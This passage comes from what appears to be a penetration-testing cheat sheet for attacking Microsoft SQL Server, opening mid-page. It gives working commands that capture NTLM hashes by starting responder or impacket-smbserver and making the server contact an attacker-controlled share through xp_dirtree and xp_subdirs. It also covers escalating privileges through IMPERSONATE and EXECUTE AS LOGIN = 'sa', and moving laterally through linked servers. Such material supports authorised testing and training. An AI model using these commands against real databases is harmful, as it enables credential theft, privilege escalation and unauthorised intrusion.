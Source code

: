 - The `xp_regwrite` command is used to elevate privileges by creating new entries in the Windows registry.

- **Capture Hashes**

  1. Start `responder` or `impacket-smbserver`

     ```bash
     sudo responder -I tun0
     ```

     ```bash
     sudo impacket-smbserver share ./ -smb2support
     ```

  2. Hash stealing

     ```bash
     EXEC master..xp_dirtree '\\[RESPONDER IP]\share\'
     
     EXEC master..xp_subdirs '\\[RESPONDER IP]\share\'
     ```
     
  3. Crack the Hash

  4. If cracking doesn't work, relay

- **IMPERSONATE to Privesc**  

   Sysadmins can impersonate anyone by default.

  ```bash
  # Identify which Users we can impersonate
  SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'
  GO
  
  # Impersonate an User (e.g. sa) - Recommended within the master DB 
  EXECUTE AS LOGIN = 'sa' SELECT SYSTEM_USER SELECT IS_SRVROLEMEMBER('sysadmin')
  GO
  
  # Revert the operation and return to our previous user
  REVERT
  ```
  
- **Communicate with other DB**

  If we manage to gain access to a SQL Server with a linked server  configured, we may be able to move laterally to that database server. 

  ```bash
  # Identify linked Servers (0 is a linked server)
  SELECT srvname, isremote FROM sysservers
  
  # Execute command in the linked server
  EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [[LINKED SERVER]]
  # The output will be 4 numbers, 0 for False and 1 for True
  # If you need quotes in the EXECUTE command, use double quotes inside
  ```
  